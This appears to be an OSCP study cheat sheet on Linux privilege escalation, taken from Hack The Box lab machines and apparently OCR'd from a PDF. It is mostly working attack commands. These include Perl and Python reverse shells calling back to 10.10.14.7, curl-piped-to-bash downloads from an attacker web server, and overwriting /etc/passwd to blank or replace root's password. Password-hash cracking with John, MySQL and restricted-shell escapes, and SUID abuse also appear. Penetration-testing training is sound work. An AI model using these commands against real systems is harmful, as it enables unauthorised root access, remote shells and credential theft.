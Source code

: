 ```yaml
---
title: "OSCP: Linux Privilege Escalation"
parent: OSCP
grand_parent: Certifications
nav_order: 4
---
```


privesc_linux
UPGRADE SHELL python -c ‘import pty; pty.spawn("bin/bash")’
ctrl-Z
stty raw -echo
fg
Enumerate and run this:
which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null
”_ If you don’t see a compiler such as GCC, you know it’s probably not going to be a kernel exploit. So enumerate and use
LinEnum.sh or Linuxprivescchecker.py. I found on one of my 20 point boxes it only perl and wget, so I was looking for priv esc
related to perl. The other 20 pointer had GCC, so I googled a linux exploit, 2 minutes later I am root.
BY HAND 1. sudo -l # view users rights has to be tried first for all linux privesc
2. rw on /etc/passwd → echo root::0:0:root:/root:/bin/bash > /etc/passwd → su
3. bash_history
4. find / -perm -4000 2>/dev/null # SUID files - detect by date?
5. Do all cronjobs look normal and do you have write access to any??
6. ps aux | grep root == john mysql -u root
7. If webserver poke around database
8. Look at original nmap scan for other shite running (nmap localhost)
sudo -u anotheruser command run sommand as another user
sudo -u scriptmanager bash -i #run shell as user scriptmanager
which awk perl python ruby gcc cc vi vim nmap find netcat nc wget curl tftp ftp 2>/dev/null
DOWNLOAD ALL LINUX ENUM FILES TO VICTIM cd /opt/linux_privesc
python -m SimpleHTTPServer
wget -r 10.10.14.7:8000
curl 10.10.14.7/LinEnum | bash # pipe into bash
or save to victim
linEnum.sh has a -t flag for thorough!!
make a thorough linEnum script bu putting thorough = 1 at top of script
KERNEL EXPLOITS i686 = 32bit
x86_64 = 64bit
when u pop a box what usernames and info did you get on the way in that may help
Get Linux version from Apache version etc... Launchpad?
linux exploit suggester
the exploit will give linux version + exploitable file
check your own file version
eg
ldd --version
cat /etc/lsb-release
Can ignore warnings on gcc compiles
LINUX VERSIONS
ubuntu 2.2.22 apache → launchpad link → prcise
Google ubuntu releases wiki.ubuntu.com/Releases → End of Lifes?
nmap --script vuln -oA nmap/vulns 10.10.10.79
Freebsd uses csh shell
LINUX PASSWORDS unshadow passwd.txt shadow.txt > unshadowed.txt
john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
42/67
WRITABLE /etc/passwd (Bank) Create encrypted password and place in passwd file
openssl passwd --help
openssl passwd dan
dfVJQnZOraiAw
openssl passwd -1 dan # specifies md5
vi /etc/passwd
replace
root:x:0:0:root:/root:/bin/bash
with
root:dfVJQnZOraiAw:0:0:root:/root:/bin/bash
su root
Password: dan
SUID (Bank) find / -perm -4000 2>/dev/null
/var/htb/bin/emergency
$ ls -la /var/htb/bin/emergency
-rwsr-xr-x 1 root root 112204 Jun 14 2017 /var/htb/bin/emergency
Just run the binary and gain root
/var/htb/bin/emergency
That was simple (will often need to edit binary)
ESCALATE VIA MYSQL ROOT credentials → go into mysql as root then drop ito a shell to pwn box
mysql -u root -p
Enter password: !@#S3cur3P4ssw0rd!@#
Create shell in mysql
\! /bin/sh
DIDNT ESCALATE
sudo -l sudo -l
User shelly may run the following commands on Shocker:
(root) NOPASSWD: /usr/bin/perl
Get the pentest monkey perl shell
Important to add sudo before
sudo /usr/bin/perl -e 'use Socket;$i="10.10.14.7";
$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i))))
{open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
A cronjob (of sorts) test.py owned by us (we are scriptmanager). But note the output (test.txt) is root.
Goody gumdrops.
Put in a new test.py.
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.7",
4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
Open listener on KALI: nc -nlvp 4444
Serve it it to victim's scripts folder
Let the cronjob run → shell
43/67
RESTRICTED BASH To view what we CAN run
monitor@waldo:~$ echo $PATH
/home/monitor/bin:/home/monitor/app-dev:/home/monitor/app-dev/v0.1
ls /home/monitor/bin
ls most red rnano
ls -la /home/monitor/app-dev
total 2236
drwxrwx--- 3 app-dev monitor 4096 May 3 2018 .
drwxr-x--- 5 root monitor 4096 Jul 24 2018 ..
-rwxrwx--- 1 app-dev monitor 13704 Jul 24 2018 logMonitor
rwx-able if we are in monitor group?
rnano /etc/group
monitor:x:1001: ← yes
We will copy /bin/bash and paste it over logMonitor
red /bin/bash ← restricted edit
1099016
w app-dev/logMonitor <- write to logMonitorcd ~
1099016
q
logMonitor
tmp.tUiSCVyRTR: dircolors: command not found
We now have /bin/bash BUT we can still only do whats in our path. BUT... we can echo a normal path (from kali) and set it on
Waldo
ON KALI
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/go/bin:/root/go-workspace/bin
ON WALDO
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/go/bin:/root/go-workspace/bin
GET LINENUM WITH CURL
root@kali:/opt/linux_privesc# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
curl 10.10.14.11:8000/linEnumThorough.sh | bash
[+] Files with POSIX capabilities set:
/usr/bin/tac = cap_dac_read_search+ei
/home/monitor/app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei
[+] Capabilities associated with the current user:
cap_dac_read_search ←
[+] Permissions of files with the same capabilities associated with the current user:
-rwxr-xr-x 1 root root 39752 Feb 22 2017 /usr/bin/tac
man capabilities
CAP_DAC_READ_SEARCH
* Bypass file read permission checks and directory read and execute permission checks;